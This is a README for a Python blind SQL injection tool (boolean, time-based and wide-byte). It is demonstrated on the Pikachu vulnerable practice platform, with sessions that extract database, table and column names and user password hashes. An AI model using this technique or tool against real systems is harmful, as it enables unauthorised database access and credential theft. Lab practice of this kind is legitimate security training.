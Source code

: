 # sqli_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sqli_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注（包括宽字节注入）和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的两个盲注关卡以及宽字节注入关卡开发，如有必要可以用这3个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py，sqli_tb.py和sqli_bb_widebyte.py的payload和部分参数   
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseBool()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesBool()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsBool()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentBool()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseTime()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesTime()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsTime()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is     USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentTime()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 布尔盲注+宽字节注入

以pikachu漏洞平台SQL-Inject的宽字节注入关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseWide()  
the name of current database contains 7 characters   
the name of current database is pikachu  
\>\>\> TablesWide()  
the name of all tables in current database contains 38 characters   
the name of all tables in current database is httpinfo,member,message,users,xssblind   
\>\>\> ColumnsWide()  
the name of all columns in current table contains 164 characters   
the name of all columns in current table is      user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password      
\>\>\> ContentWide()  
the content contains 117 characters     
the content is admin~e10adc3949ba59abbe56e057f20f883e,pikachu~670b14728ad9902aecba32e22fa4f6bd,test~e99a18c428cb38d5f260853678922e03     
